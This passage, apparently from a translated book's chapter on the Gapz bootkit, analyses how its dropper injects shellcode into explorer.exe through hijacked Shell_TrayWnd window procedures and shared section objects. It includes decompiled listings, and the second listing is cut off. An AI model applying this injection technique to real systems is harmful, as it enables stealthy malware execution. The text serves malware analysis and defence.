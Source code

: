 1.  写入 shellcode 后，搜索窗口 `Shell_TrayWnd`。该窗口对应于 Windows 任务栏。Gapz 特别针对这个窗口，因为它是由 *explorer.exe* 创建和管理的，并且很可能在系统中可用。

1.  调用 Win32 API 函数 `GetWindowLong` 获取与 `Shell_TrayWnd` 窗口处理程序相关的例程地址。

1.  调用 Win32 API 函数 `SetWindowLong` 来修改与 `Shell_TrayWnd` 窗口处理程序相关的例程地址。

1.  调用 `SendNotifyMessage` 触发在 *explorer.exe* 地址空间中执行 shellcode。

区段对象用于与其他进程共享某一进程的一部分内存；换句话说，它们代表了可以跨系统进程共享的内存区段。Listing 12-1 显示了恶意软件在第一步中查找的*\BaseNamedObjects*中的区段对象。这些区段对象对应系统区段——即它们是由操作系统创建的，包含系统数据。Gapz 遍历区段对象列表并打开它们，以检查它们是否存在于系统中。如果系统中存在某个区段对象，投放程序将停止遍历，并返回该区段的句柄。

```
char _stdcall OpenSection_(HANDLE *hSection, int pBase, int *pRegSize)

{

    sect_name = L"\\BaseNamedObjects\\ShimSharedMemory";

    v7 = L"\\BaseNamedObjects\\windows_shell_global_counters";

    v8 = L"\\BaseNamedObjects\\MSCTF.Shared.SFM.MIH";

    v9 = L"\\BaseNamedObjects\\MSCTF.Shared.SFM.AMF";

    v10 = L"\\BaseNamedObjectsUrlZonesSM_Administrator";

    i = 0;

    while ( OpenSection(hSection, (&sect_name)[i], pBase, pRegSize) < 0 )

    {

        if ( ++i >= 5 )

            return 0;

    }

    if ( VirtualQuery(*pBase, &Buffer, 0xlCu) )

        *pRegSize = v7;

    return 1;

}
```

*Listing 12-1：Gapz 投放程序中使用的对象名称*

一旦打开现有区段，恶意软件便开始将其代码注入到*explorer.exe*进程中，如 Listing 12-2 所示。

```
char __cdecl InjectIntoExplorer()

{

  returnValue = 0;

  if ( OpenSectionObject(&hSection, &SectionBase, &SectSize) )  // open some of SHIM sections

  {

 ➊ TargetBuffer = (SectionBase + SectSize - 0x150);            // find free space in the end

                                                                // of the section

```